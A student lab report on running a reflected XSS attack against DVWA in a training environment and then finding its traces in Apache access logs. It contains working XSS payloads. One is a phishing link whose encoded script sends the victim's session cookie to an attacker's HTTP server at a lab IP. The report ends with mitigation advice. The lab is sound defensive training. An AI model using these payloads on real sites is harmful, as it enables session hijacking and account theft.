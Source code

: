 # Lab Report: Performing and Detecting Reflected XSS

## Overview

In this lab, I performed and investigated a reflected XSS (Cross-Site Scripting) attack using the DVWA (Damn Vulnerable Web Application) hosted on a local LAMP server. The objective was to understand how reflected XSS works and how to identify its indicators in Apache web logs.

---

## Lab Objectives

This lab aligns with the following CompTIA CySA+ objectives:

- **1.1** System and network architecture in security operations
- **1.2** Analyze indicators of potentially malicious activity
- **1.3** Use tools or techniques to determine malicious activity
- **1.4** Threat-intelligence and threat-hunting concepts
- **2.4** Mitigate attacks and software vulnerabilities
- **3.2** Perform incident response activities
- **3.5** Attack methodology frameworks

---

## Lab Environment

- **KALI VM**: Used for reconnaissance and launching XSS attacks
- **LAMP VM**: Hosts DVWA, the vulnerable web application
- **Browser**: Firefox ESR
- **Tools**: Terminal, Apache log viewer, Python HTTP server

---

## Part 1: Performing Reflected XSS

### Step 1: Verifying DVWA Access

- Navigated to `http://dvwa.structureality.com` and logged in as `admin` / `password`.
- Ensured security level was set to **Low**.

![DWA ](images/dwa_screen.jpg)

### Step 2: Testing Basic Input

- Submitted `testuser` in the "What's your name?" field.
- Verified output: `Hello testuser`.

![DWA ](images/dwa_helloTest.jpg)

### Step 3: Submitting Malicious Script

Submitted the following input:

```html
<script>
  alert("You have been hacked!");
</script>
```

- Popup appeared confirming script execution.

Submitted next:

```html
<script>
  alert(document.cookie);
</script>
```

- Popup displayed PHPSESSID, demonstrating cookie theft via reflected XSS.

![DWA ](images/dwa_cookie.jpg)

## Part 2: Polluting Referrers

- Repeated previous inputs but returned to the XSS page after each submission.
- This approach simulates real attacker behavior and affects HTTP referrer headers in logs.

## Part 3: Simulating a Realistic XSS Attack

### Step 1: Set Up Malicious Web Server

On Kali:

```bash
touch index.html
python -m http.server 9999
```

![DWA ](images/kali_server.jpg)

### Step 2: Simulated Phishing Email

Opened /root/email.html which contained:

```html
<a
  href="http://dvwa.structureality.com/vulnerabilities/xss_r/?name=%3cscript%3ewindow.location%3d%27http%3a%2f%2f10.1.16.66%3a9999%2f%3fcookie%3d%27%2bdocument.cookie%3c%2fscript%3e"
  >Activate your 6-months of free Premium Service!</a
>
```

- Clicking the link caused session cookie to be sent to attacker's HTTP server.

![DWA ](images/email.jpg)

## Part 4: Investigating the Attack (On LAMP)

### Step 1: Navigate Apache Logs

```bash
cd /var/log/apache2
ls -l
```

![DWA ](images/apache_logs.jpg)

### Step 2: Locate Malicious Request

Searched for encoded socket:

```bash
grep 10.1.16.66%3a9999 access.log
```

- Found HTTP GET request showing full reflected XSS payload.

```bash
GET /vulnerabilities/xss_r/?name=%3cscript%3ewindow.location%3d...
```

![DWA ](images/grep_log.jpg)

### Step 3: Trace Reconnaissance Activity

```bash
tail -n 25 access.log
```

Found evidence of prior requests:

- GET /vulnerabilities/xss_r/?name=testuser2
- GET /vulnerabilities/xss_r/?name=%3cscript%3ealert("You+have+been+hacked!+Again!")%3c%2fscript%3e
- GET /vulnerabilities/xss_r/?name=%3cscript%3ealert(document.cookie)%3c%2fscript%3e

📸 Screenshot suggestion: Full sequence of log entries leading up to the attack

## Analysis

- The attack was executed using a reflected XSS payload encoded in a phishing link.
- Apache logs confirmed the attack via the GET request and referrer fields.
- The session token (PHPSESSID) was successfully exfiltrated to the attacker's machine.
- Apache logs captured key IOCs: attacker IP, percent-encoded payload, and suspicious referrers.

## Mitigation Recommendations

- Sanitize user input with proper encoding
- Use Content Security Policy (CSP)
- Employ web application firewalls
- Enable HttpOnly and Secure flags on cookies
- Conduct regular log reviews and implement alerting on suspicious patterns

## Conclusion

This lab demonstrated how a simple reflected XSS vulnerability could be exploited to hijack a user's session. It also showed the importance of log analysis and early detection of such activity within access logs.
